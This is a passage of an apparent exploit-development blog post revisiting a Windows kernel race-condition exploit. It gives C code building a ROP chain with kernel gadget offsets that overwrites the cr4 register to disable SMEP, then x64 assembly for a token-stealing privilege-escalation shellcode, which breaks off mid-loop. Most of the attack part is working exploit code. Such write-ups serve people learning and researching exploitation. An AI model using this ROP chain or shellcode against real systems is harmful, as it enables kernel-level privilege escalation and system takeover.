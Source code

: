 ## Defeating SMEP - Revisited

In my [first attempt](https://plackyhacker.github.io/kernel/race-2) I used a U/S bit-flipping technique to defeat SMEP. Essentially marking the shellcode page as a kernel owned page. The ROP chain to do this is quite long and overwrites a substantial amount of stack space. This makes recovering the stack more difficult as it overwrites alot of the save return addresses on the stack.

I decided to use the easier technique, which involves disabling the SMEP flag in the CPU register. I prefer the U/S bit-flipping technique because it feels more reliable because changing the `cr4` value to disable SMEP requires you to zero out a single byte, meaning you need to know what the value previously was (which is easy in a debugger, but not really portable). **I might revisit this exploit again to see if I can recover from the former technique!**

```c
userBuffer = (char*)malloc(sizeof(char*) * BUFFER_SIZE);
memset((void*)userBuffer, 0x00, BUFFER_SIZE);

// ...

 memcpy((void*)(userBuffer + 0x7f8), &marker, 0x8);

// rop chain
int index = 0;
char* offset = userBuffer + 0x800;
QWORD* rop = (QWORD*)offset;

// we should set the raceWon variable to 1
*(rop + index++) = (QWORD)&raceWon;                             // stored on stack (not in rop chain)
*(rop + index++) = (QWORD)kernelBase + 0x7f700b;                // pop rcx
*(rop + index++) = (QWORD)0x0070678;
*(rop + index++) = (QWORD)kernelBase + 0x39e4a7;                // mov cr4, rcx; ret;
*(rop + index++) = (QWORD)&Shellcode;
```

The important part here is that the `raceWon` address is placed on the stack **before** the saved return address overflow, which starts with the `pop rcx` gadget. I simply disable SMEP and return to the shellcode in user space.

## Shellcode - Revisited

The shellcode uses a very standard tocken stealing payload but also has two other important elements:

```asm
.CODE

Shellcode PROC
	; NOTE:                   avoid changing non-volatile registers:
                          ; rbx, r12, r13, r14, r15
									
	stop_user_threads:
		mov rax, r11          ; r11 contains a pointer to the raceWon global var
		mov rax, [rax]        ; move address of raceWon in to rax
		mov rcx, 01h          ; move 0x1 in to rcx
		mov [rax], rcx        ; set raceWon var to 1

	start:
		mov rax, gs:[0188h]    ; get current thread (_KTHREAD)
		mov rax, [rax+0b8h]    ; get current process (_KPROCESS)
		mov r8, rax            ; store _EPROCESS in r8

	loop_start:
		mov r8, [r8+0448h]      ; get ActiveProcessLinks
		sub r8, 0448h           ; get current process (_EPROCESS)
```